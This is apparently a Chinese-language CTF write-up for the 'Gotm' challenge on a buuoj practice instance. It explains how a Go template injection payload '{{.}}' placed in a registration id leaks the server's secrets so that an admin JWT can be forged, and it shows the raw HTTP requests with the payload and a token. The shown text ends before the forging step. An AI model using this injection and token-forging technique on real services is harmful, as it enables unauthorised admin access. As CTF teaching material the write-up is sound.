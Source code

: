 0x01 Gotm
=========

is\_admin == true就给flag，需要伪造token，需要秘钥才行

![image-20220403163037051](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-85c39cef3e02e0a1bbc79c1442c76a9487da239b.png)

再往下看，经典SSTI

![image-20220403163537552](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1cf83dacf2cfdd472cf4578ecc98f66eacc7a06c.png)

如果能控制acc也就是id为`{{.}}`，就能得到这三个的值，然后id可控，直接打就行了

![image-20220403163655912](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-20a52c6b53dacfaab0820c5d31f9976dc497f8d7.png)

接下来思路就很简单了

先注册一个id为`{{.}}`的用户：

```php
GET /regist?id={{.}}&pw=123 HTTP/1.1
Host: 18ee7345-ef74-4dad-9d5c-0cfa94d0dedc.node4.buuoj.cn:81
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: OUTFOX_SEARCH_USER_ID_NCOO=2063489418.517967; UM_distinctid=17ee2cd83fda5e-0ab95a53d98578-f791b31-144000-17ee2cd83feaf5
Connection: close
```

然后登录得到token：

![image-20220403154614274](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-25feb839b44b4e727b24f0463636490c51383c19.png)

带上X-Token登录

```php
GET / HTTP/1.1
Host: 18ee7345-ef74-4dad-9d5c-0cfa94d0dedc.node4.buuoj.cn:81
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: OUTFOX_SEARCH_USER_ID_NCOO=2063489418.517967; UM_distinctid=17ee2cd83fda5e-0ab95a53d98578-f791b31-144000-17ee2cd83feaf5
Connection: close
X-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7Ln19IiwiaXNfYWRtaW4iOmZhbHNlfQ.0Lz_3fTyhGxWGwZnw3hM_5TzDfrk0oULzLWF4rRfMss

```
